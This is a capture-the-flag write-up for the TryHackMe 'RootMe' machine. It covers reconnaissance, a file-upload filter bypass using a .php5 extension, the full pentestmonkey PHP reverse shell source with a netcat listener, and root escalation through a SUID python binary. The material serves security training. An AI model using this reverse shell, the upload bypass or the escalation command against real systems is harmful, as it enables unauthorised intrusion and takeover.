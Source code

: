 # RootMe - THM

I'll start by running nmap scan:
```bash
nmap -sV -sC 10.10.12.73 -oN scan.nmap
```

![image](https://user-images.githubusercontent.com/114166939/226315146-a7b150ac-c319-4da5-afbd-5d66906843e8.png)

Let's take a look on the website:

I'll run a brute-force attack on the url to find hidden directories:
```bash
gobuster dir -u http://10.10.12.73/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > dirs.txt
```
![image](https://user-images.githubusercontent.com/114166939/226315983-f670d517-b741-4bfc-8c97-820c1e5cdf21.png)

The "/panel" directory includes images upload system:

![image](https://user-images.githubusercontent.com/114166939/226316570-95810171-e5d0-4216-923d-8dbbcdcd283b.png)

I'll try to get a reverse shell by uploading an exploit to this system,
I'm going to use php code for reverse shell by "https://pentestmonkey.net/":
```php
  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '[IP]';  // You have changed this
  $port = [PORT];  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;
  
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }

  ?> 
```
I changed the IP and port and called this file "reverse.php" and now im going to upload it on the panel:

![image](https://user-images.githubusercontent.com/114166939/226318268-7abbee05-bc19-4640-a7e6-d93bb8649fbc.png)

It detected the file, so after some research i found this page: "https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass", i'll change the file name to:"reverse.php5" and let's try again!

![image](https://user-images.githubusercontent.com/114166939/226319215-cea89063-2462-4d5e-84cc-da804415d50a.png)

Now i can found the upload at "/uploads" directory.

![image](https://user-images.githubusercontent.com/114166939/226319479-90a95ccd-e8cc-4049-b199-6c976cfe0823.png)

First, I'll run a netcat listener:
```bash
nc -lnvp [PORT]
```

And now run the reverse shell from the "/uploads" directory,
Got a reverse shell as "www-data" user.

![image](https://user-images.githubusercontent.com/114166939/226320289-3bc03e06-ed7b-40ce-899d-b01f0dca4eae.png)

Now, I can find the user.txt flag which stored at "/var/www":

![image](https://user-images.githubusercontent.com/114166939/226320713-e422b773-2245-4686-aeb7-713225bee469.png)

To find the root.txt flag, I need to find a way to escalate my privileges and become the root user.

I'm gojng to search for SUID files with the command:
```bash
find / -user root -perm /4000 2>/dev/null
```
One of the most suspicious files in the output is "/usr/bin/python"

![image](https://user-images.githubusercontent.com/114166939/226321712-c3ab1b4b-fc18-4686-a623-a14eba96850d.png)

I'll search for a vulnerability for SUID binary python file on "https://gtfobins.github.io/".
Found the following command:
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
I'll enter to "/usr/bin" and run this command:

![image](https://user-images.githubusercontent.com/114166939/226322547-13b6e186-2cc7-4be9-ba31-3a1e2a3f4677.png)

Now all left to do is enter to the root directory and print the root.txt flag:

![image](https://user-images.githubusercontent.com/114166939/226325201-fd09f234-be21-4c33-8550-fcb9125bcb99.png)
